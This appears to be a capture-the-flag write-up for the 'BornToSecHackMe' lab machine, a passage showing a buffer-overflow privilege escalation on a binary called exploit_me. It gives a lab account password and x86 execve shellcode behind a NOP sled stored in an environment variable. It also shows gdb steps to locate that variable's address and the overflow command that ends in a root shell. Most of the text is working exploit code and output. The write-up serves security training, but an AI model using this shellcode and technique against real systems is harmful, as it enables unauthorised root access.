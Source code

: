 ## Buffer Overflow

Repeat steps of the **writeup1** until you are log on zaz's ssh session.

Mdp:
```bash
646da671ca01bb5d84dbb5fb2238dc8e
```

We already know that the binary `exploit_me` is vulnerable to **buffer overflow** but 
this time we're going to use a variant of the `ret2libc` by using an **environment variable**
and a **payload**.

We store the **payload** in an **environment variable**:
```bash
zaz@BornToSecHackMe:~$ export SHELL_CODE=$(python -c 'print("\x90"*100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80")')
```

Now, we have to find the address of `SHELL_CODE`.

We launch **gdb** and disassemble main to choose a random **breakpoint**:
```bash
zaz@BornToSecHackMe:~$ gdb exploit_me

...

(gdb) disas main
Dump of assembler code for function main:
   0x080483f4 <+0>:	push   %ebp # like this one
   0x080483f5 <+1>:	mov    %esp,%ebp
   0x080483f7 <+3>:	and    $0xfffffff0,%esp
   0x080483fa <+6>:	sub    $0x90,%esp
   0x08048400 <+12>:	cmpl   $0x1,0x8(%ebp)
   0x08048404 <+16>:	jg     0x804840d <main+25>
   0x08048406 <+18>:	mov    $0x1,%eax
   0x0804840b <+23>:	jmp    0x8048436 <main+66>
   0x0804840d <+25>:	mov    0xc(%ebp),%eax
   0x08048410 <+28>:	add    $0x4,%eax
   0x08048413 <+31>:	mov    (%eax),%eax
   0x08048415 <+33>:	mov    %eax,0x4(%esp)
   0x08048419 <+37>:	lea    0x10(%esp),%eax
   0x0804841d <+41>:	mov    %eax,(%esp)
   0x08048420 <+44>:	call   0x8048300 <strcpy@plt>
   0x08048425 <+49>:	lea    0x10(%esp),%eax
   0x08048429 <+53>:	mov    %eax,(%esp)
   0x0804842c <+56>:	call   0x8048310 <puts@plt>
   0x08048431 <+61>:	mov    $0x0,%eax
   0x08048436 <+66>:	leave
   0x08048437 <+67>:	ret
```

We create the **breakpoint** and run the program:
```bash
(gdb) break *0x080483f4
Breakpoint 1 at 0x80483f4

(gdb) r
Starting program: /home/zaz/exploit_me

Breakpoint 1, 0x080483f4 in main ()
```

We search for the address of the **environement variable**:
```bash
(gdb) p (char *) getenv("SHELL_CODE")
$5 = 0xbffffec4 "\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\061\300Ph//shh/bin\211\343\211\301\211\302\260\v\315\200\061\300@\315\200"
```

This time, our payload has to be as following:
```text
[buffer][SHELL_CODE address]
```

```bash
zaz@BornToSecHackMe:~$ ./exploit_me `python -c 'print("A"* 140 + "\xbf\xff\xfe\xc4"[::-1])'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����
```
```bash
$ whoami
root
```





